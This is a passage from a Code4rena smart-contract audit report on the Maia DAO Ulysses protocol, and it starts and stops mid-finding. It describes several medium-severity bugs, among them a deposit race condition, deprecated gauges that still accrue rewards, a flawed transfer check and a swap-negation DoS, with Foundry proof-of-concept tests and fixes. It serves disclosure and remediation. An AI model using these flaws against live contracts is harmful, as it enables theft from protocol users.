*Submitted by [0xTheC0der](https://github.com/code-423n4/2023-05-maia-findings/issues/281), also found by [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/760) and [KupiaSec](https://github.com/code-423n4/2023-05-maia-findings/issues/749)*

The [ERC-4626](https://eips.ethereum.org/EIPS/eip-4626) paradigm of deposit/mint and withdraw/redeem, where a **single** underlying asset amount can always be converted to a number of vault shares and vice-versa, breaks as soon as there are **multiple weighted** underlying assets involved.

While it's easy to convert from shares to asset amounts using the weight factors, it's hard to convert from asset amounts to shares, in case they are not exactly distributed according to the weight factors.

In the Ulysses protocol this was solved the following way:

- On `UlyssesToken.deposit(...)` every asset amount is converted to shares and the **smallest** of them is the one received for the deposit, see [ERC4626MultiToken.convertToShares(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/erc-4626/ERC4626MultiToken.sol#L200-L207). As a consequence, excess assets provided on the deposit are lost for the user and cannot be redeemed with the received shares.
- On `UlyssesToken.withdraw(...)` every asset amount is converted to shares and the **greatest** of them is the one required to withdraw the given asset amounts, see [ERC4626MultiToken.previewWithdraw(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/erc-4626/ERC4626MultiToken.sol#L250-L255). As a consequence, less assets than are entitled to, according to the share count, can be withdrawn from the vault incurring a loss for the user.

One might argue that this issue is of low severity, due to user error and the user being responsible to only use asset amounts in accordance with the vault's asset weights. However, the asset weights are not fixed and can be changed at any time by the owner of the `UlyssesToken` contract via the [setWeights(...)](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-amm/UlyssesToken.sol#L88-L105) method. That is what makes this an actual issue.

Consider the scenario when a user is about to deposit/withdraw assets not knowing their respective weights have changed, or even worse the deposit/withdraw transaction is already in the `mempool`, but the call to `setWeights(...)` is executed before. Depending on the new asset weights, this will inevitably lead to a loss for the user.

### Proof of Concept

The following in-line documented PoC demonstrates the above claims for the deposit case. Just add the new test case below to `test/ulysses-amm/UlyssesTokenTest.t.sol:InvariantUlyssesToken` and run it with `forge test -vv --match-test test_UlyssesToken`:

```solidity
function test_UlyssesTokenSetWeightsDepositLoss() public {
    UlyssesToken token = UlyssesToken(_vault_);

    // initialize asset amounts according to weights, mint tokens & give approval to UlyssesToken vault
    uint256[] memory assetsAmounts = new uint256[](NUM_ASSETS);
    for (uint256 i = 0; i < NUM_ASSETS; i++) {
        assetsAmounts[i] = 1000 * token.weights(i);
        MockERC20(token.assets(i)).mint(address(this), 1e18);
        MockERC20(token.assets(i)).approve(address(token), 1e18);
    }

    // deposit assets & check if we got the expected number of shares
    uint256 expectedShares = token.previewDeposit(assetsAmounts);
    uint256 receivedShares = token.deposit(assetsAmounts, address(this));
    assertEq(expectedShares, receivedShares); // OK

    // check if we can redeem the same asset amounts as we deposited
    uint256[] memory redeemAssetsAmounts = token.previewRedeem(receivedShares);
    assertEq(assetsAmounts, redeemAssetsAmounts); // OK

    // assuming everything is fine, we submit another deposit transaction to the mempool
    // meanwhile the UlyssesToken owner changes the asset weights
    uint256[] memory weights = new uint256[](NUM_ASSETS);
    for (uint256 i = 0; i < NUM_ASSETS; i++) {
        weights[i] = token.weights(i);
    }
    weights[0] *= 2; // double the weight of first asset
    token.setWeights(weights);

    // now our deposit transaction gets executed, but due to the changed asset weights
    // we got less shares than expected while sending too many assets (except for asset[0])
    receivedShares = token.deposit(assetsAmounts, address(this));
    assertEq(expectedShares, receivedShares, "got less shares than expected");

    // due to the reduced share amount we cannot redeem all the assets we deposited,
    // we lost the excess assets we have deposited (except for asset[0])
    redeemAssetsAmounts = token.previewRedeem(receivedShares);
    assertEq(assetsAmounts, redeemAssetsAmounts, "can redeem less assets than deposited");
}
```

The test case shows that less shares than expected are received, in the case of changed weights and any deposited excess assets cannot be redeemed any more:

    Running 1 test for test/ulysses-amm/UlyssesTokenTest.t.sol:InvariantUlyssesToken
    [FAIL. Reason: Assertion failed.] test_UlyssesTokenSetWeightsDepositLoss() (gas: 631678)
    Logs:
      Error: got less shares than expected
      Error: a == b not satisfied [uint]
            Left: 45000
           Right: 27500
      Error: can redeem less assets than deposited
      Error: a == b not satisfied [uint[]]
            Left: [10000, 10000, 20000, 5000]
           Right: [10000, 5000, 10000, 2500]

For the sake of simplicity, the test for the withdrawal case was skipped, since it's exactly the same problem just in the reverse direction.

### Tools Used

VS Code, Foundry

### Recommended Mitigation Steps

- On `UlyssesToken.deposit(...)`, only transfer the necessary token amounts (according to the computed share count) from the sender, like the `UlyssesToken.mint(...)` method does.
- On `UlyssesToken.withdraw(...)`, transfer all the asset amounts the sender is entitled to (according to the computed share count) to the receiver, like the `UlyssesToken.redeem(...)` method does.

### Assessed type

Rug-Pull

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/281#issuecomment-1628648135):**
> The time-sensitivity consideration seems to be valid.

**[0xLightt (Maia) disputed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/281#issuecomment-1632811699):**
> This is intended. The goal is that the user gets the same number of assets, but can be in a different ratio, according to weights. That is the reason behind the first failing statement. The second failed statement is because you are passing the incorrect share obtained by the incorrect `assetsAmounts` array.
>
> This is a working version of the test passing all tests:
> ```solidity
>     function test_UlyssesTokenSetWeightsDepositLoss() public {
>         UlyssesToken token = UlyssesToken(_vault_);
> 
>         // initialize asset amounts according to weights, mint tokens & give approval to UlyssesToken vault
>         uint256[] memory assetsAmounts = new uint256[](NUM_ASSETS);
>         for (uint256 i = 0; i < NUM_ASSETS; i++) {
>             assetsAmounts[i] = 1 ether * token.weights(i);
>             MockERC20(token.assets(i)).mint(address(this), 100 ether);
>             MockERC20(token.assets(i)).approve(address(token), 100 ether);
>         }
> 
>         // deposit assets & check if we got the expected number of shares
>         uint256 expectedShares = token.previewDeposit(assetsAmounts);
>         uint256 receivedShares = token.deposit(assetsAmounts, address(this));
>         assertEq(expectedShares, receivedShares); // OK
> 
>         // check if we can redeem the same asset amounts as we deposited
>         uint256[] memory redeemAssetsAmounts = token.previewRedeem(receivedShares);
>         assertEq(assetsAmounts, redeemAssetsAmounts); // OK
> 
>         // assuming everything is fine, we submit another deposit transaction to the mempool
>         // meanwhile the UlyssesToken owner changes the asset weights
>         uint256[] memory weights = new uint256[](NUM_ASSETS);
>         for (uint256 i = 0; i < NUM_ASSETS; i++) {
>             weights[i] = token.weights(i);
>         }
>         weights[0] *= 2; // double the weight of first asset
>         token.setWeights(weights);
> 
>         // due to the reduced share amount we cannot redeem all the assets we deposited,
>         // we lost the excess assets we have deposited (except for asset[0])
>         redeemAssetsAmounts = token.previewRedeem(expectedShares);
>         uint256 expectedSum;
>         uint256 sum;
>         for (uint256 i = 0; i < NUM_ASSETS; i++) {
>             expectedSum += assetsAmounts[i];
>             sum += redeemAssetsAmounts[i];
>         }
>         assertApproxEqAbs(expectedSum, sum, 1, "can redeem less assets than deposited");
> 
>         // now our deposit transaction gets executed, but due to the changed asset weights
>         // we got less shares than expected while sending too many assets (except for asset[0])
>         receivedShares = token.deposit(redeemAssetsAmounts, address(this));
>         assertApproxEqAbs(expectedShares, receivedShares, 1, "got less shares than expected");
>     }
> ```

**[0xTheC0der (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/281#issuecomment-1650965734):**
 > @Trust - Providing some additional context:
> - The sponsor has shown in their version of the test case that the impermanent loss due to re-weighting is intentional and works correctly. This is typical behaviour for mulit-asset vaults and does **not invalidate** the original issue in any way.  
> - The real problem is the race condition, which was correctly assessed by the judge as "time-sensitivity consideration", which causes undesired user loss (involuntary donation of assets) in case of a transaction order of `previewDeposit` -> `setWeights` -> `deposit`. (There is a related race condition issue on withdrawal.)   
> - In the sponsor's test case: `setWeights` should be to moved between `previewRedeem` and `deposit` to replicate the original issue.  
> 
> Appreciate everyone's efforts and have a nice day!

**[0xLightt (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/281#issuecomment-1655701757):**
 > We recognize the audit's findings on Ulysses Token. These will not be rectified due to the upcoming migration of this section to Balancer Stable Pools Wrapper.

***

## [[M-35] Removing a `UniswapV3Gauge` via `UniswapV3GaugeFactory` does not actually remove it from the `UniswapV3Staker`. The gauge still gains rewards and can be staked too (even though deprecated). Plus old stakers can game the rewards of new stakers](https://github.com/code-423n4/2023-05-maia-findings/issues/277)
*Submitted by [ABA](https://github.com/code-423n4/2023-05-maia-findings/issues/277)*

Gauge factories have a [`BaseV2GaugeFactory::removeGauge`](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/factories/BaseV2GaugeFactory.sol#L130-L137) that removes the indicated gauge and marks it as deprecated for the corresponding [`bHermesGauges` and `bHermesBoost`](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/factories/BaseV2GaugeManager.sol#L100-L103) token contracts.

However, removing a `UniswapV3Gauge` with `UniswapV3GaugeFactory` does not actually remove it from the `UniswapV3Staker`. The gauge still remains and existing users that staked can still gain the exact same benefits from it.

What is worse, is that staking to the gauge can still happen. Any new users that stake cannot receive a share of the generated fees (plus boost), as it is impossible to vote for the deprecated gauge.

### Issue detailed explanation

When a `UniswapV3Gauge` is created via `UniswapV3GaugeFactory`, it is also attached to a `UniswapV3Staker` via the [`BaseV2GaugeFactory::afterCreateGauge`](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/factories/BaseV2GaugeFactory.sol#L122-L125) callback [implementation](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/factories/UniswapV3GaugeFactory.sol#L87-L91):

```Solidity
    /// @notice Adds Gauge to UniswapV3Staker
    /// @dev Updates the UniswapV3 staker with bribe and minimum width information
    function afterCreateGauge(address strategy, bytes memory) internal override {
        uniswapV3Staker.updateGauges(IUniswapV3Pool(strategy));
    }
```

However, there is no `afterCreateRemoved` mechanism implemented in `BaseV2GaugeFactory`. As such, the `UniswapV3Staker` contract is never updated about the removed gauge. This creates a situation in which existing users/stakes benefit while new stakes lose out on bribes, gaming the system.

This is because:

- New users can stake to the deprecated gauge, as there is no mechanism to check if the gauge they are staking to is active or not (similar to how [`UniswapV3Staker::updateGauges` checks](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/uni-v3-staker/UniswapV3Staker.sol#L526-L529)).

```Solidity
    function updateGauges(IUniswapV3Pool uniswapV3Pool) external {
        address uniswapV3Gauge = address(uniswapV3GaugeFactory.strategyGauges(address(uniswapV3Pool)));


        if (uniswapV3Gauge == address(0)) revert InvalidGauge();
```

- **But** new users that stake to the deprecated gauge do not receive a portion of fees that are generated and sent to the bribe deposit. Although, users that have staked to the *now* deprecated gauge **beforehand** still gain the fees generated by the staked positions.

This happens because when gauge removal happens in [BaseV2GaugeManager::removeGauge](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/factories/BaseV2GaugeManager.sol#L100-L103), the indicated gauge is marked as deprecated ([bHermesGauges::ERC20Gauges::\_removeGauge](https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20Gauges.sol#L435)). Users that have already voted to the deprecated gauge still get the bribe rewards when `BaseV2Gauge::accrueBribes` is called.

Rewards flows is:

- [BaseV2Gauge::accrueBribes](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/BaseV2Gauge.sol#L111-L121)
    - [FlywheelCore::accrue](https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/base/FlywheelCore.sol#L69-L72)
        - [FlywheelCore::\_accrue](https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/base/FlywheelCore.sol#L74-L81)
            - [FlywheelCore::accrueUser](https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/base/FlywheelCore.sol#L196-L198) (which influences reward calculation)
                - [FlywheelBoosterGaugeWeight::boostedBalanceOf](https://github.com/code-423n4/2023-05-maia/blob/main/src/rewards/booster/FlywheelBoosterGaugeWeight.sol#L58-L61)
                    - [bHermesGauges::ERC20Gauges::getUserGaugeWeight](https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/interfaces/IERC20Gauges.sol#L62-L65)
                        - And `ERC20Gauges::getUserGaugeWeight` is only [increasable if the gauge is not deprecated](https://github.com/code-423n4/2023-05-maia/blob/main/src/erc-20/ERC20Gauges.sol#L203)

To be noted, the action of *unstaking* (calling [UniswapV3Staker::\_unstakeToken](https://github.com/code-423n4/2023-05-maia/blob/main/src/uni-v3-staker/UniswapV3Staker.sol#L377-L390)) sends rewards to the gauge bribe deposit:

```Solidity
            // scope for bribeAddress, avoids stack too deep errors
            address bribeAddress = bribeDepots[key.pool];


            if (bribeAddress != address(0)) {
                nonfungiblePositionManager.collect(
                    INonfungiblePositionManager.CollectParams({
                        tokenId: tokenId,
                        recipient: bribeAddress,
                        amount0Max: type(uint128).max,
                        amount1Max: type(uint128).max
                    })
                );
            }
        }
```

From there, it is then transferred to those that already delegated to the (now deprecated) gauge, following the already mentioned execution flow.

Note, that deprecated gauges [still have the boosting bonus associated with `bHermesBoost`](https://github.com/code-423n4/2023-05-maia/blob/main/src/uni-v3-staker/UniswapV3Staker.sol#L401-L424), where the same issue as above appears; already existing users get the boost and new users cannot.

```Solidity
        // ...
        
        // get boost amount and total supply
        (boostAmount, boostTotalSupply) = hermesGaugeBoost.getUserGaugeBoost(owner, address(gauge));
        
        // ...

        secondsInsideX128 = RewardMath.computeBoostedSecondsInsideX128(
            // ...
            uint128(boostAmount),
            uint128(boostTotalSupply),
            // ...

        );

        // ...

        uint256 reward = RewardMath.computeBoostedRewardAmount(
            // ...
            secondsInsideX128,
            // ...
        );

        }
```

### Proof of Concept

A step by step execution flow was shown above.

The lack of active gauge check can be observed in any of the staking flow functions:

- [restakeToken](https://github.com/code-423n4/2023-05-maia/blob/main/src/uni-v3-staker/UniswapV3Staker.sol#L340-L348)
- [stakeToken](https://github.com/code-423n4/2023-05-maia/blob/main/src/uni-v3-staker/UniswapV3Staker.sol#L465-L473)
- [\_stakeToken](https://github.com/code-423n4/2023-05-maia/blob/main/src/uni-v3-staker/UniswapV3Staker.sol#L475-L519) (called by the above 2)

Also, there is no [`BaseV2GaugeFactory::afterCreateRemoved`](https://github.com/code-423n4/2023-05-maia/blob/main/src/gauges/factories/BaseV2GaugeFactory.sol#L125-L137) type of `callback` existing.

A theoretical POC would be as:

- A `UniswapV3Gauge` is created via `UniswapV3GaugeFactory` (it is also automatically attached to the existing `UniswapV3Staker`).
- Users vote for it via `bHermesGauges`.
- A team decided to remove the existing `UniswapV3Gauge` for a newer version.
- A team calls `BaseV2GaugeFactory::removeGauge` that does not remove the gauge from the `UniswapV3Staker`, while also deprecating it in `bHermesGauges`.
- The now deprecated and faulty removed `UniswapV3Gauge` still receives fees from the `UniswapV3Staker`.
- New users stake to the removed `UniswapV3Gauge`, but will not receive any bribe rewards; creating a situation where the first depositors gain the later ones.

### Tools Used

**The most important factor**: a very good, active and helping project team!

### Recommended Mitigation Steps

As the system is complex, we must take into consideration a few observations:

- We cannot remove the gauge from `UniswapV3Staker` because already existing incentives would become bricked and worthless.
- Removing a gauge completely from the `UniswapV3Staker` means losing potential rewards deposited by users.
    - A `UniswapV3Staker` without the `bHermesGauges` mechanism is similar to a normal `UniswapV3Staker`, so it does still work has some incentive.
- Leaving the gauge open to be staked and added incentives would allow old stakers to prey on new stakes and new stakers will not receive any fees generated by the staked positions.
- Refunding potential emissions (rewards) deposited by users (or protocols) adds storage overhead.
- A `BaseV2GaugeFactory::afterCreateRemoved` mechanism is required regardless for any future gauge that needs post-remove operations.
- Deprecated gauges still have the boosting bonus associated with `bHermesBoost`, where the same issue as above appears; already existing users get the boost and new users cannot.

A possible solution can be a mix of the above:

1. Create a `BaseV2GaugeFactory::afterCreateRemoved` mechanism.
2. Add a function `UniswapV3GaugeFactory::afterCreateRemoved` that overrides the above that calls `UniswapV3Staker::updateBribeDepot`.
3. In `UniswapV3Staker::updateBribeDepot` check if the strategy associated with the `IUniswapV3Pool` is active and if not, then set the bribeDepot (`bribeDepots[uniswapV3Pool]`) of that pool's gauge to the zero address so that no new rewards are sent to the deprecated gauge.

The above is a minimum suggested regardless. 

Extra:

4. Add a check for `UniswapV3Staker::_stakeToken` if the gauge is active or not and revert; i.e. do not allow any further staking into inactive gauges.
5. Consider decreasing the gain value of `bHermesBoost` if the gauge is deprecated in `_unstakeToken`. Some more consideration should be taken if implementing this, as any reward bonuses that were not collected before the removal/deprecation will also be lost (that in itself is an issue that must not happen).

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/277#issuecomment-1632759940)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/277#issuecomment-1709221247):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/277).

***

## [[M-36] `ERC4626PartnerManager.checkTransfer` does not check `amount` correctly, as it applies `bHermesRate` to `balanceOf[from]`, but not `amount`. ](https://github.com/code-423n4/2023-05-maia-findings/issues/268)
*Submitted by [lukejohn](https://github.com/code-423n4/2023-05-maia-findings/issues/268)*

### Proof of Concept

`ERC4626PartnerManager.checkTransfer()` is a modifier that will be called to ensure that the `from` account has sufficient funding to cover  `userClaimedWeight[from]`, `userClaimedBoost[from]`, `userClaimedGovernance[from]`, and `userClaimedPartnerGovernance[from]` before the transfer occurs:

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/maia/tokens/ERC4626PartnerManager.sol#L325-L335>

However, `bHermesRate` is applied to `balanceOf[from]`, but not to `amount`. This is not right, since `amount` is not in the units of `userClaimedWeight[from]`, `userClaimedBoost[from]`, `userClaimedGovernance[from]`, and `userClaimedPartnerGovernance[from]`; but it's in the units of shares of `ERC4626PartnerManager`.

The correct way to check, would be to ensure  `balanceOf[from]-amount *  bHermesRate` >= `userClaimedWeight[from]`, `userClaimedBoost[from]`, `userClaimedGovernance[from]`, and `userClaimedPartnerGovernance[from]`.

### Tools Used

VSCode

### Recommended Mitigation Steps

```diff
 modifier checkTransfer(address from, uint256 amount) virtual {
-        uint256 userBalance = balanceOf[from] * bHermesRate;
+        uint256 userBalance = (balanceOf[from] - amount) * bHermesRate;

-        if (
-            userBalance - userClaimedWeight[from] < amount || userBalance - userClaimedBoost[from] < amount
-                || userBalance - userClaimedGovernance[from] < amount
-                || userBalance - userClaimedPartnerGovernance[from] < amount
-        ) revert InsufficientUnderlying();

+        if (
+            userBalance < userClaimedWeight[from] || userBalance < userClaimedBoost[from] 
+                || userBalance < userClaimedGovernance[from]  || userBalance <  userClaimedPartnerGovernance[from] 
+        ) revert InsufficientUnderlying();


        _;
    }
```

### Assessed type

Math

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/268#issuecomment-1632749238)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/268#issuecomment-1709221420):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/268).

***

## [[M-37] Branch Strategies lose yield due to wrong implementation of time limit in `BranchPort.sol`](https://github.com/code-423n4/2023-05-maia-findings/issues/264)
*Submitted by [ByteBandits](https://github.com/code-423n4/2023-05-maia-findings/issues/264)*

Branch Strategies lose yield due to a wrong implementation of the time limit in `BranchPort.sol`. This results in missed yield for branch strategies, less capital utilization of the platform, and ultimately a loss of additional revenue for the protocol's users.

### Proof of Concept

The `_checkTimeLimit` function in `BranchPort.sol` controls whether amounts used by a branch strategy cumulatively do not exceed the daily limit, which is set for the particular strategy. It is only called from the `manage` function in the same contract (<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/BranchPort.sol#L161>).

The current implementation of `_checkTimeLimit` looks like this:

```Solidity
function _checkTimeLimit(address _token, uint256 _amount) internal {
    if (block.timestamp - lastManaged[msg.sender][_token] >= 1 days) {
        strategyDailyLimitRemaining[msg.sender][_token] = strategyDailyLimitAmount[msg.sender][_token];
    }
    strategyDailyLimitRemaining[msg.sender][_token] -= _amount;
    lastManaged[msg.sender][_token] = block.timestamp;
}
```

**The current implementation does the following:**

- The first time a strategy manages some amounts and `_checkTimeLimit` is called, the 24 hour window is started (`strategyDailyLimitRemaining[msg.sender][_token]` is initialized to the daily limit amount and `lastManaged[msg.sender][_token] `is set to `block.timestamp`).

- On a second call, to use more of the daily limit (if the amount used in the above bullet, is not the full daily amount, which is not enforced), it will set `lastManaged[msg.sender][_token]` again to `block.timestamp`. This pushes the time when the daily budget will be reset (`strategyDailyLimitRemaining[msg.sender][_token]` = `strategyDailyLimitAmount[msg.sender][_token]`) again 24 hours into the future.

**Consequences of the current implementation:**

- Due to the setting of the `lastManaged[msg.sender][_token]` on every call,  the daily budget misses its purpose, as a budget reset after 24h is not guaranteed.

- In the worst but likely case, a call is made by the strategy just before the current 24 hour time window passes to use the remaining amount. This will delay a reset of the daily limit by the maximum possible time. In consequence, a strategy misses 1 full amount of the daily budget.

- The aforementioned results in a loss of yield for the strategy (assuming the strategy generates a yield), less capital utilization of the platform, and ultimately, a loss of additional revenue for the protocol's users.

- Assuming there are multiple strategies in the protocol, the negative effect is multiplied.

**The implementation that was probably intended:**

```Solidity
function _checkTimeLimit(address _token, uint256 _amount) internal {
    if (block.timestamp - lastManaged[msg.sender][_token] >= 1 days) {
        strategyDailyLimitRemaining[msg.sender][_token] = strategyDailyLimitAmount[msg.sender][_token];
        lastManaged[msg.sender][_token] = block.timestamp; // <--- line moved here
    }
    strategyDailyLimitRemaining[msg.sender][_token] -= _amount;
}
```

- Here, the reset of the daily budget is made after a 24 hour time window as expected.

- What is lost is the information "when the last time a strategy called the function", as `lastManaged[msg.sender][_token]` now only stores the `block.timestamp` the last time the daily budget was reset and not when the last time the function was called. If this should still be tracked, consider an additional state variable (e.g. `lastDailyBudgetReset[msg.sender][_token]`).

### Recommended Mitigation Steps

Implement the logic as shown under section **The implementation that was probably intended**

Please also, consider the following comments:

- To get the maximum amount out of their daily budget, a strategy must make a call to the `manage()` function exactly every 24 hours after the first time calling it. Otherwise, there are time frames where amounts could be retrieved, but are not. That would have the strategy missing out on investments and therefore, potential yield. E.g. the 2nd call happens 36 hours (instead of 24 hours) after the initial call => 12 hours (1/2 of a daily budget) remains unused.

- The amount also needs to be fully used within the 24 hour timeframe, since the daily limit is overwriting and not cumulating (using `strategyDailyLimitRemaining[msg.sender][_token]` = `strategyDailyLimitAmount[msg.sender][_token]` and not `strategyDailyLimitRemaining[msg.sender][_token]` += `strategyDailyLimitAmount[msg.sender][_token]`).

- An alternative to the aforementioned, could be to calculate the amount to grant to a strategy after an initial/last grant like the following: (time since last grant of fresh daily limit / 24 hours) `*` daily limit. This would have the effect that a strategy could use their granted limits without missing amounts due to suboptimal timing. It would also spare the strategy the necessary call every 24 hours, which would save some gas and remove the need for setting up automation for each strategy (e.g. using Chainlink keepers). The strategy could never spend more than the cumulative daily budget. But it may lead to a sudden usage of a large amount of accumulated budget, which may not be intended.

### Assessed type

Timing

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/264#issuecomment-1632522098)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/264#issuecomment-1709932221):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/264).

***

## [[M-38] DoS of `RootBridgeAgent` due to missing negation of return values for `UniswapV3Pool.swap()`](https://github.com/code-423n4/2023-05-maia-findings/issues/262)
*Submitted by [peakbolt](https://github.com/code-423n4/2023-05-maia-findings/issues/262)*

### Lines of code

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L684><br><https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L728>

### Vulnerability details

Both `RootBridgeAgent._gasSwapIn()` and `RootBridgeAgent._gasSwapOut()` do not negate the negative returned value of `UniswapV3Pool.swap()` before casting to `uint256`. That will cause the parent functions `anyExecute()` and `_manageGasOut()` to revert on overflow when casting return values of `_gasSwapIn()` and `_gasSwapOut()` with `SafeCastLib.toUint128()`.

### Impact

Several external functions in `RootBridgeAgent` (such as `anyExecute()`,  `callOut()`, `callOutAndBridge()`, `callOutAndBridgeMultiple()`, etc) are affected by this issue. That means `RootBridgeAgent` will not function properly at all, causing a DoS of the Ulysses Omnichain.

### Detailed Explanation

`UniSwapV3Pool.swap()` returns a negative value for exact input swap (see [documentation](<https://docs.uniswap.org/contracts/v3/reference/core/UniswapV3Pool#swap>)).

This is evident in UniswapV3's `SwapRouter.sol`, which shows that the returned value is negated before casting to `uint256`.

<https://github.com/Uniswap/v3-periphery/blob/main/contracts/SwapRouter.sol#L111>

```Solidity
    function exactInputInternal(
        uint256 amountIn,
        address recipient,
        uint160 sqrtPriceLimitX96,
        SwapCallbackData memory data
    ) private returns (uint256 amountOut) { 
        ...

        (int256 amount0, int256 amount1) =
            getPool(tokenIn, tokenOut, fee).swap(
                recipient,
                zeroForOne,
                amountIn.toInt256(),
                sqrtPriceLimitX96 == 0
                    ? (zeroForOne ? TickMath.MIN_SQRT_RATIO + 1 : TickMath.MAX_SQRT_RATIO - 1)
                    : sqrtPriceLimitX96,
                abi.encode(data)
            );

        //@audit return values amount0 and amount1 are negated before casting to uint256
        return uint256(-(zeroForOne ? amount1 : amount0));
    }
```

However, both `RootBridgeAgent._gasSwapIn()` and `RootBridgeAgent._gasSwapOut()` do not negate the returned value before casting to `uint256`.

```Solidity
    function _gasSwapIn(uint256 _amount, uint24 _fromChain) internal returns (uint256) {
        ...

        try IUniswapV3Pool(poolAddress).swap(
            address(this),
            zeroForOneOnInflow,
            int256(_amount),
            sqrtPriceLimitX96,
            abi.encode(SwapCallbackData({tokenIn: gasTokenGlobalAddress}))
        ) returns (int256 amount0, int256 amount1) {
            //@audit missing negation of amount0/amount1 before casting to uint256
            return uint256(zeroForOneOnInflow ? amount1 : amount0);
        } catch (bytes memory) {
            _forceRevert();
            return 0;
        }
    }

     function _gasSwapOut(uint256 _amount, uint24 _toChain) internal returns (uint256, address) {
        ...

        //Swap imbalanced token as long as we haven't used the entire amountSpecified and haven't reached the price limit
        (int256 amount0, int256 amount1) = IUniswapV3Pool(poolAddress).swap(
            address(this),
            !zeroForOneOnInflow,
            int256(_amount),
            sqrtPriceLimitX96,
            abi.encode(SwapCallbackData({tokenIn: address(wrappedNativeToken)}))
        );

        //@audit missing negation of amount0/amount1 before casting to uint256
        return (uint256(!zeroForOneOnInflow ? amount1 : amount0), gasTokenGlobalAddress);
    }
```

In `anyExecute()` and `_manageGasOut()` , both return value of `_gasSwapIn()` and `_gasSwapOut()` are converted using `SafeCastLib.toUint128()`. That means, these calls will revert due to overflow, as casting a negative `uint256` value to `uint256` will result in a large value exceeding `uint128`.

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L884-L886>

```Solidity
    function anyExecute(bytes calldata data)
        external
        virtual
        requiresExecutor
        returns (bool success, bytes memory result)
    {
        ...
            //@audit SafeCastLib.toUint128() will revert due to large return value from _gasSwapIn()
            //Swap in all deposited Gas
            _userFeeInfo.depositedGas = _gasSwapIn(
                uint256(uint128(bytes16(data[data.length - PARAMS_GAS_IN:data.length - PARAMS_GAS_OUT]))), fromChainId
            ).toUint128();
    }
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L757-L767>

```Solidity
    function _manageGasOut(uint24 _toChain) internal returns (uint128) {
        ...

        if (_initialGas > 0) {
            if (userFeeInfo.gasToBridgeOut <= MIN_FALLBACK_RESERVE * tx.gasprice) revert InsufficientGasForFees();
            (amountOut, gasToken) = _gasSwapOut(userFeeInfo.gasToBridgeOut, _toChain);
        } else {
            if (msg.value <= MIN_FALLBACK_RESERVE * tx.gasprice) revert InsufficientGasForFees();
            wrappedNativeToken.deposit{value: msg.value}();
            (amountOut, gasToken) = _gasSwapOut(msg.value, _toChain);
        }

        IPort(localPortAddress).burn(address(this), gasToken, amountOut, _toChain);

        //@audit SafeCastLib.toUint128() will revert due to large return value from _gasSwapOut()
        return amountOut.toUint128();
    }
```

### Proof of Concept

First, simulate a negative return value by adding the following line to `MockPool.swap()` in [RootTest.t.sol#L1916](https://github.com/code-423n4/2023-05-maia/blob/main/test/ulysses-omnichain/RootTest.t.sol#L1916):

```Solidity
        //@audit simulate UniSwapV3Pool negative return value
        return (-amount0, -amount1);
```

Then, run `RootTest.testCallOutWithDeposit()`, which will demonstrate that `swap()` will cause an overflow to revert `CoreRootRouter.addBranchToBridgeAgent()`, preventing `RootTest.setUp()` from completing.

### Recommended Mitigation Steps

Negate the return values of `UniswapV3Pool.swap()` in `RootBridgeAgent._gasSwapIn()` and `RootBridgeAgent._gasSwapOut()` before casting to `uint256`.

### Assessed type

DoS

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/262#issuecomment-1655931922):**
 > We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.
> 

***

## [[M-39] `ERC4626PartnerManager.sol` mints extra `partnerGovernance` tokens to itself, resulting in over supply of governance token](https://github.com/code-423n4/2023-05-maia-findings/issues/191)
*Submitted by [T1MOH](https://github.com/code-423n4/2023-05-maia-findings/issues/191), also found by [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/741)*

`ERC4626PartnerManager` mints more tokens than needed when the `bHermesRate` increased.

1. I suppose it can break the voting in which this token is used. Because `totalSupply` is increased, more and more tokens are stuck in contract after every increasing of `bHermesRate`.
